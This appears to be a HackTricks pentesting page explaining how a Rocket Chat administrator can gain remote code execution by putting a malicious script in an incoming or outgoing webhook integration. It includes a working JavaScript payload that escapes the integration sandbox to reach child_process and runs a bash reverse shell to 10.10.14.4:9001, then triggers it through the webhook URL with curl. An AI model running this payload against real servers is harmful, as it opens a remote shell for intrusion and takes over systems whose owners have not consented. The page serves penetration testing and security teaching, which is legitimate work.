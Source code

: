 # Rocket Chat

{{#include ../../banners/hacktricks-training.md}}

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

## RCE

If you are admin inside Rocket Chat you can get RCE.

- Got to **`Integrations`** and select **`New Integration`** and choose any: **`Incoming WebHook`** or **`Outgoing WebHook`**.
  - `/admin/integrations/incoming`

<figure><img src="../../images/image (266).png" alt=""><figcaption></figcaption></figure>

- According to the [docs](https://docs.rocket.chat/guides/administration/admin-panel/integrations), both use ES2015 / ECMAScript 6 ([basically JavaScript](https://codeburst.io/javascript-wtf-is-es6-es8-es-2017-ecmascript-dca859e4821c)) to process the data. So lets get a [rev shell for javascript](../../generic-hacking/reverse-shells/linux.md#nodejs) like:

```javascript
const require = console.log.constructor("return process.mainModule.require")()
const { exec } = require("child_process")
exec("bash -c 'bash -i >& /dev/tcp/10.10.14.4/9001 0>&1'")
```

- Configure the WebHook (the channel and post as username must exists):

<figure><img src="../../images/image (905).png" alt=""><figcaption></figcaption></figure>

- Configure WebHook script:

<figure><img src="../../images/image (572).png" alt=""><figcaption></figcaption></figure>

- Save changes
- Get the generated WebHook URL:

<figure><img src="../../images/image (937).png" alt=""><figcaption></figcaption></figure>

- Call it with curl and you shuold receive the rev shell

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{{#include ../../banners/hacktricks-training.md}}


